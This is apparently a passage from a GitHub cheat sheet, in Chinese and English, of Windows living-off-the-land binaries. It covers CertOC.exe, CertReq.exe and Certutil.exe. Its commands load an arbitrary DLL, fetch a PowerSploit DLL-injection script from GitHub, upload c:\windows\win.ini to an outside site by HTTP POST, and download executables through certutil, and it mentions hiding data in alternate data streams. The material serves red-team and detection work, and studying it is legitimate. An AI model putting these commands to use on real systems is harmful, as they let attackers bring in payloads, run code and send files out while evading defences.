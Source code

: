 例如，如果你在一个文本文件中存储了一段说明性的文本，你可以将其作为备用数据流添加到另一个文件中，而不会影响主文件的大小。这对于隐藏信息或存储附加数据非常有用。


### 5.CertOC.exe

### Description
Function-1:Execute dll 

Function-2:Download

### CMD
Function-1: 
```
certoc.exe -LoadDLL "C:\test\calc.dll"
```
U can use Visual Studio to create a library file(dll) 
Function-2:
```
certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
```
CertOC.exe is originally used to download certificates

### 6.CertReq.exe

### Description
Function-1:Download

Function-2:Upload   

### CMD
Function-1:Save the response from a HTTP POST to a website as output.txt in the current directory
```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```
Function-2:Send the file c:\windows\win.ini to a website via HTTP POST and show response in terminal
```
CertReq -Post -config https://example.org/ c:\windows\win.ini
```
CertOC.exe is originally used to manage certificates

### 7.Certutil.exe

### Description
Function-1:Download

Function-2:Encode

Function-3:Decode

Function-4:Alternate data streams

### CMD
Function-1:Download the 7z.exe
```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe

certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```
